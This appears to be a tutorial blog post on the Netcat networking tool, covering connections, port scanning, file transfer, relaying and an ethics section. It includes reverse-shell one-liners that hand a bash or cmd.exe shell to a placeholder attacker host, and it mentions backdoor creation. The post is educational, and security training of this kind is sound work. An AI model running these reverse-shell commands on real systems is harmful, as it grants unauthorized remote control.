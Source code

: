 ```yaml
---
layout: post
title: Mastering Netcat for Networking and Cybersecurity
date: 2023-12-22 15:01:35 +0300
image: '/images/422.png'
tags: [Cybersecurity, Networking, Tools]
---
```


The **Netcat** (nc) command is often referred to as the Swiss Army knife of networking. It is a versatile tool for reading, writing, and analyzing data across network connections using TCP or UDP. Netcat is invaluable for penetration testers, network administrators, and cybersecurity professionals. This blog post explores Netcat’s features, its applications in networking and security, and common use cases. Be sure to follow the included **lab walkthrough** for hands-on practice.

{% raw %}
<iframe style="border-radius:12px" src="https://open.spotify.com/embed/episode/3rfUYgCevDMsGgo7pw4Ft9?utm_source=generator" width="100%" height="30" frameborder="0" allowfullscreen="" allow="autoplay; clipboard-write; encrypted-media; fullscreen; picture-in-picture"></iframe>
{% endraw %}
---

## What is Netcat?

Netcat is a command-line utility that facilitates the creation and analysis of network connections. It supports various protocols and can be used for a wide range of tasks, from file transfers to port scanning.

Key capabilities of Netcat include:
- Creating client-server connections for data transfer.  
- Performing port scans to identify open services.  
- Acting as a network debugging and exploration tool.  

Netcat’s simplicity and power make it a must-have tool in any cybersecurity toolkit.

---

## Why Use Netcat in Cybersecurity?

Netcat’s versatility and ease of use make it ideal for cybersecurity and network diagnostics. Here’s why it’s a critical tool:

1. **Establishing Network Connections**  
   Quickly create TCP/UDP connections to test services or troubleshoot issues.

2. **Port Scanning**  
   Identify open ports and services running on a target system.

3. **File Transfers**  
   Easily send and receive files between systems over a network.

4. **Backdoor Creation**  
   Set up backdoors for testing post-exploitation scenarios (authorized use only).

5. **Data Debugging**  
   Analyze raw data sent over network connections.

---

## Key Features of Netcat

### 1. **Creating Network Connections**
Establish TCP or UDP connections to send or receive data.

**Command Example:**
```bash
nc -l -p 1234
```

### 2. **Port Scanning**
Scan for open ports on a target host to identify running services.

**Command Example:**
```bash
nc -zv example.com 1-1000
```

### 3. **File Transfers**
Transfer files between systems using Netcat.

**Command Example:**
```bash
# On the receiver
nc -l -p 1234 > received_file.txt

# On the sender
cat file.txt | nc target_ip 1234
```

### 4. **Creating Reverse Shells**
Test reverse shell connections for penetration testing purposes.

**Command Example:**
```bash
nc -e /bin/bash attacker_ip 4444
```

### 5. **Debugging and Analysis**
Send and receive raw data to debug network issues.

**Command Example:**
```bash
echo "Test Data" | nc target_ip 1234
```

---

## Common Use Cases for Netcat

### 1. **Port Scanning**
Identify open ports and services for network reconnaissance.

**Command Example:**
```bash
nc -zv example.com 80 443
```

### 2. **File Transfers**
Send and receive files over TCP connections.

### 3. **Reverse Shell Setup**
Establish reverse shells for authorized penetration testing.

**Command Example:**
```bash
nc -e cmd.exe attacker_ip 4444
```

### 4. **Testing Services**
Manually connect to services to troubleshoot connectivity.

**Command Example:**
```bash
nc example.com 80
GET / HTTP/1.1
```

### 5. **Relay and Proxy Connections**
Use Netcat to forward data between two endpoints for testing.

**Command Example:**
```bash
nc -l -p 1234 | nc target_ip 5678
```

---

## Ethical Considerations

Netcat is a powerful tool that must be used responsibly and ethically. Always:
- Obtain explicit permission before testing networks.
- Avoid unauthorized use that could disrupt services or breach legal regulations.
- Follow industry standards, such as the **OWASP Testing Guide** or **NIST SP 800-115**.

---

## A Deeper Dive: Hands-On Lab

This blog post is accompanied by a hands-on lab walkthrough that demonstrates:
- Using Netcat for port scanning and service testing.
- Creating client-server connections for file transfers.
- Setting up reverse shells for post-exploitation testing.

The lab provides practical exercises to help you master Netcat and its applications in cybersecurity. Don’t miss this opportunity to refine your skills.

---

> "The greatest glory in living lies not in never falling, but in rising every time we fall."  
> <cite>Nelson Mandela</cite>

---

## Conclusion

Netcat is a versatile and powerful tool for networking and cybersecurity tasks. Its ability to create connections, analyze data, and test network services makes it indispensable for professionals in the field.

The accompanying hands-on lab walkthrough provides a practical introduction to Netcat’s capabilities, allowing you to explore its applications in real-world scenarios. By mastering Netcat, you can enhance your network diagnostics and security testing skills. Dive into the lab and elevate your expertise today.

